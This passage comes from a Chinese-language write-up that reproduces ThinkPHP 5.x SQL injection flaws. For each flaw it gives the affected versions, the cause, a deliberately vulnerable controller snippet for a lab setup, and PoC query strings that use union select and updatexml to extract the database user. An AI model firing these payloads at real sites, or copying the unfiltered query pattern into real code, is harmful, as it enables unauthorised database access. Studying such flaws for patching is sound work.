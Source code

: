 **Poc/exp:**

```
/index/index/index?name=) union select updatexml(1,concat(0x7,user(),0x7e),1)#
```

[![](http://zone.secevery.com/uploads/article/20191220/a3625cb2e2543725301af1de996438c4.png)](http://zone.secevery.com/uploads/article/20191220/a3625cb2e2543725301af1de996438c4.png)

  **七，ThinkPHP5.0.10 select 注入**  
**漏洞介绍**  
本次漏洞存在于 Mysql 类的 parseWhereItem 方法中。由于程序没有对数据进行很好的过滤，直接将数据拼接进 SQL 语句。再一个， Request 类的 filterValue 方法漏过滤 NOT LIKE 关键字，最终导致 SQL 注入漏洞 的产生。

  **影响版本**  
ThinkPHP 5.0.10

  **漏洞分析参考：**  
https://www.freebuf.com/column/206599.html

  **漏洞复现（内网环境）**  
**在 \ thinkphp\application\index\controller\Index.php 添加以下代码:**

```
class Index

{

    public function index()

    {

        $username = request()->get('name/a');

        $result = db('user')->where(['name' => $name])->select();

        var_dump($result);

    }

}
```

**Poc/exp:**

```
/index/index/index?name[0]=not like&name[1][0]=%%&name[1][1]=233&name[2]=) union select 1,user()#
```

[![](http://zone.secevery.com/uploads/article/20191220/d48c037742188d28c9e2f29a0b788763.png)](http://zone.secevery.com/uploads/article/20191220/d48c037742188d28c9e2f29a0b788763.png)

  **八，ThinkPHP Mysql 聚合函数相关方法注入  
漏洞介绍**  
本次漏洞存在于所有 Mysql 聚合函数相关方法。由于程序没有对数据进行很好的过滤，直接将数据拼接进 SQL 语句，最终导致 SQL 注入漏洞 的产生。

  **影响版本**   
5.0.0<=ThinkPHP<=5.0.21 、 5.1.3<=ThinkPHP5<=5.1.25 。
